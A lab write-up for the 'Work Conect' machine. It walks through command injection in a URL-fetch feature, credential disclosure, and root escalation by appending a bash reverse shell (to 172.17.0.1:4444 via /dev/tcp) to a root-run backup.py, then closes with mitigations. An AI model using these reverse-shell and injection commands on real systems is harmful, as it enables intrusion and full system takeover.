# Work Conect

**Difficulty Level:** Medium

## Executive Summary

Work Conect is a cybersecurity laboratory designed to demonstrate the critical consequences of common web vulnerabilities in professional social networking applications. The laboratory exposes multiple attack vectors that can be chained together to achieve administrator access and ultimately escalate privileges to root level. Primary vulnerabilities include command injection, sensitive information disclosure, and unsecured execution of scheduled tasks.

## 1. Initial Reconnaissance

The laboratory begins with an Nmap scan that reveals an HTTP service listening on port 8000:



Subsequently, the web service is accessed, identifying a professional social network platform:



## 2. Enumeration of Functionalities

Upon investigating the application, user registration and login modules are discovered:

### User Registration:



### User Login:



A user account is created and a login is performed, revealing a user control panel:



During further investigation, the API endpoint documentation is found to be publicly accessible via FastAPI Swagger:



## 3. Analysis of Attack Vectors

After initial analysis, SQL injection is ruled out as a viable attack vector. However, a profile picture upload functionality is identified in the control panel. The system requests a download URL rather than allowing direct file uploads, requiring a local HTTP server to be configured:



### File Upload Attempt:

The file download from the application succeeds, demonstrating that file extension validation is not enforced. However, the downloaded file cannot be executed, limiting this attack vector:



## 4. Exploitation via Command Injection

The system is discovered to execute terminal commands, specifically `curl` to download files. This opens the door for command injection exploitation. The theory is tested using the `&&` operator combined with the `id` command:



Execution is successful. Additional commands are tested, such as reading the `/etc/passwd` file:



An attempt is made to execute a standard reverse shell, though unsuccessful at this point:



## 5. Discovery of Sensitive Files

The current directory contents are listed using `ls`, uncovering several potentially vulnerable files:



The most relevant files identified are:
- `dnis_encontrados.txt`
- `backup.py`
- `entrypoint.sh`
- `database.db`

Each file is examined:




The files `dnis_encontrados.txt` and `database.db` reveal highly sensitive user information, including identification numbers and access credentials. Administrative user credentials are also exposed. A login attempt is made using these administrative credentials, confirming elevated access to the platform.

## 6. Privilege Escalation

The `entrypoint.sh` file is examined and `backup.py` is discovered to execute automatically every 60 seconds with root privileges. This presents a critical opportunity for privilege escalation:



The `backup.py` file is modified by injecting a command that establishes a reverse shell while preserving the root privileges of the process. The command executed is:

```bash
echo '\nimport os; os.system("/bin/bash -c '\''/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\''")' >> /opt/backup.py
```



**Important Technical Note:** The current system directory is `/opt/workconect`, which contains a copy of `backup.py`. However, the scheduled script executes the file located in `/opt/`. Therefore, only modifying the file in `/opt/backup.py` will result in the reverse shell being executed.

## 7. Root Access Acquisition

A listening session is initiated on the attacker's machine using `nc -lnvp 4444` and the system waits for the scheduled script to execute:



The reverse shell is successfully obtained with root privileges, completing the laboratory objective.

## General Notes

Although not strictly necessary to log in as an administrator to exploit the laboratory, in a real-world scenario, the fact that administrative credentials are exposed represents a critical vulnerability. The exposure of administrative credentials and the ability to access other users' accounts reveals privileged information that would compromise the integrity, confidentiality, and availability of other users' data and systems.

The first Reverse shell command fails because it was not complete, with a more elaborated command is posible to get a reverse shell from the begining and work in a local shell. 

Command:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

## Identified Vulnerabilities

1. **Command Injection** - CWE-78
2. **Sensitive Information Disclosure** - CWE-200
3. **Improper File Upload Validation** - CWE-434
4. **Improper Access Control** - CWE-284
5. **Privilege Escalation via Scheduled Tasks** - CWE-269

## Mitigation Recommendations

### 1. Command Injection
**Recommendation:** Implement a whitelist approach to validate and sanitize all user inputs before using them in command-line operations. Preferably, use programming language APIs instead of executing shell commands. Employ functions such as `subprocess.run()` in Python with decomposed parameters (shell=False) instead of concatenating commands into strings.

### 2. Sensitive Information Disclosure
**Recommendation:** Never store sensitive information (identification numbers, credentials, etc.) in plain text files. Implement encryption at rest for sensitive data. Establish strict file system access controls, assigning minimum necessary permissions (principle of least privilege). Conduct regular access audits and log all attempts to read sensitive files.

### 3. Improper File Upload Validation
**Recommendation:** Validate both file extension and MIME type (Magic Bytes) before allowing file downloads. Implement a whitelist of allowed file types. Store files outside the publicly accessible web directory and serve them through a controlled mechanism. Run antimalware analysis on downloaded files.

### 4. Improper Access Control
**Recommendation:** Implement data segregation per user. Create Role-Based Access Control (RBAC) or Attribute-Based Access Control (ABAC) models. Ensure users can only access their own data. Validate all input parameters that reference resources to prevent horizontal privilege escalation (IDOR - Insecure Direct Object References).

### 5. Privilege Escalation via Scheduled Tasks
**Recommendation:** Execute scheduled processes with the minimum level of privilege necessary. Implement file integrity for automatically executed scripts using checksums or digital signatures. Implement AppArmor or SELinux to restrict operations that privileged processes can perform. Audit and log all modifications to critical scripts and scheduled tasks.

---

## Conclusion

This laboratory demonstrates how the combination of multiple seemingly minor security vulnerabilities can result in complete system compromise. The attack chain—reconnaissance → command injection → data exposure → privilege escalation—illustrates the importance of applying defense-in-depth principles and maintaining robust security controls across all application layers.
